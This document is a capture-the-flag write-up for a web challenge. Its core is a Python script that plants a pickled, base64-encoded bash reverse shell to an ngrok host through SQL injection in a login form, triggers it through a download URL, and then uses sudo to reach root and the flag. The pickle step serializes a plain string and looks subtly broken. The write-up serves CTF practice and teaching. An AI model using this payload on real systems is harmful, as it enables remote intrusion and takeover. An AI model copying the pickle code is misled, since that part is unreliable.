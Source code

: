 Challenge:

![Challenge](images/1.challenge.PNG)

To do:  add code analysis





I set up my ngrok listener and netcat on my machine.

![ngrok](images/ngrok.PNG)  
![netcat](images/revshell.PNG)  

I then added my base64 encoded bash payload into the script.

![base64](images/base64payload.PNG)

Script to trigger the payload:

```python
import os
import requests
import pickle
import base64


#bash -i >& /dev/tcp/0.tcp.ngrok.io/10302 0>&1

#Serialize the pickle payload
serializedPickle = pickle.dumps("os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5uZ3Jvay5pby8xMDMwMiAwPiYxCg== | base64 -d | bash',)")
#Convert to base64
picklepayload = base64.b64encode(serializedPickle)

#Decode the payload to stage for the SQL injection
payload = picklepayload.decode()

#Set up our base URL and headers
baseURL = 'http://challenge.ctf.games:32234'
url = baseURL + '/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}

#Construct the base64 attack
data = '''username=jimshoes&password=\\';insert/**/into/**/activesessions/**/values(\\'revshell\\',\\'jim\\',\\'987654321\\');insert/**/into/**/files/**/values(\\'jim\\',\\''' + payload + '''\\',null); -- "; '''

#Send the request
requests.post(url, data=data, headers=header)

#Trigger the payload
url = baseURL + '/download/jim/revshell'
requests.get(url)
```

The challenge states to escalate privileges to find the flag, so I ran ```sudo -l``` to see what permissions I had.

![sudo](images/sudo.PNG)

The account has full sudo privileges, so I elevated to root and claimed the flag in the /root directory.

![flag](images/flag.PNG)


Flag: ```flag{ac53cd7aa8a2d1b2340a6eb4a356709e}```